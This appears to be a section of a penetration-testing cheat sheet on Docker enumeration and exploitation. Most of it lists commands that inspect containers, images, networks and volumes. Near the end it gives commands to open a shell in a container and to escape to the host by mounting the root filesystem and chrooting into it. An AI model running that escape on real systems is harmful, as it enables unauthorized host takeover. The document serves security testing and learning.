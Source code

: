 ### 9.1 Docker Enumeration & Exploitation
    :- Check Docker version (potential vulns)
    docker version
    
    :- List all containers (running and stopped)
    docker ps -a
    
    :- List downloaded images
    docker images
    
    :- List Docker networks
    docker network ls
    
    :- List Docker volumes
    docker volume ls
    
    :- Get detailed info about a container
    docker inspect <container_id_or_name>
    
    :- Execute a shell inside a running container
    docker exec -it <container_id_or_name> /bin/sh
    
    :- Mount host filesystem into a new container (privilege escalation if socket is exposed)
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh